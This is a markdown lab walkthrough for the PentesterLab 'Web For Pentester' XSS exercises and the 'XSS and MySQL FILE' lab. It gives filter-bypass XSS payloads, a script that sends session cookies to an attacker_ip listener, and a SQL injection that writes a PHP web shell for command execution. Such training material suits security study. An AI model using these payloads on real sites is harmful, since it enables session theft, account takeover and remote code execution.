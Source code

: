 ## Cross Site Scripting (XSS) 
``` Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. ```


### Web For Pentester ( XSS ) Walkthrough
### Example 1
``` There is no input validation, so, can exploit it directly with the classic “alert(1)” injection. ```
#### Payload - <script>alert(1)</script>


### Example 2
``` Filtered <script> and </script> with preg_replace function ```
#### Payload - <sCript>alert(1)</sCript> and <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
### Example 3
``` Use PCRE modifier “i” (PCRE_CASELESS) to match both upper and lower case letters. However, recursion method still works fine. ```
#### Payload - <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
  
### Example 4 
``` The script will stop when “script” is detected, Need other event without script ```
#### Payload - `<img src="x" onerror="alert(1)">  and <div onmousemove="alert(1)" src="xxxx"> , etc... `
  
  
  
### Example 5
``` Filtered keyword “alert” ```
#### Payload - <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> or <script>confirm(1)</script> or <script>prompt(1)</script>  etc ... 



### Example 6
``` User input has been included in “<script>” tab, so we do not need input “<script>” and just close the first double quote and use “//” to comment the following strings. ```
#### Payload - ";alert(1);//


### Example 7
``` This time the developer use PHP function “htmlentities()” to deal with user input, the “htmlentities()” function will encode special characters which will break the XSS injection. However, the developer did not indicate any flags to function “htmlentities()” which default only use flags “ENT_COMPAT | ENT_HTML401”, “ENT_COMPAT” flag only convert double quotes and leave single quotes alone```
#### Payload - ';alert(1);//



### Example 8
``` Did correct validation on parameter “name”, but the problem happened on “$_SERVER[PHP_SELF]”. Due to there is no validation on parameter “PHP_SELF” which is controlled by user. ( The filename of the currently executing script, relative to the document root. For instance, $_SERVER['PHP_SELF'] in a script at the address http://example.com/foo/bar.php would be /foo/bar.php. The __FILE__ constant contains the full path and filename of the current (i.e. included) file. If PHP is running as a command-line processor this variable contains the script name since PHP 4.3.0. -php.net )  ```
#### Payload - /" onmouseover="alert(1)



### Example 9
```  DOM-based XSS. the user input is in URL after “#”, so just put payload after “#” in URL will trigger the vulnerability ```
#### Payload - <script>alert(1)</script>  ( Test on IE or Edge )


### XSS and MySQL FILE (  Pentester Lab )
#### [Download Link](https://pentesterlab.com/exercises/xss_and_mysql_file/iso) 
#### Two steps to Attack
#### 1.Detect and Exploit XSS
#### 2.Access Admin Panel and exploit SQLi for RCE

#### Port Scanning - nmap -sV -v -A lab_ip
#### Scanning       - zap
#### XSS Test
#### setup listener on attacking machine - python -m SimpleHTTPServer 4444

#### Get Admin Cookie - 
``` <script>document.write('<img src="http://attacker_ip:4444/?'+document.cookie+' "/>');</script> ```

#### Use cookie editor and developer tool to login like admin

#### Find and Exploit SQLi ( load_file or others )
``` http://lab_ip/admin/edit.php?id=0 UNION select 1,2,"<?php system($_GET['c']); ?>",4 into outfile "/var/www/css/rce.php" ```

#### Got RCE 
``` http://192.168.79.168/css/webshell.php?c=whoami ```




### [Useful Link](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#HTML_entities)


### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [F4l13n5n0w](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)
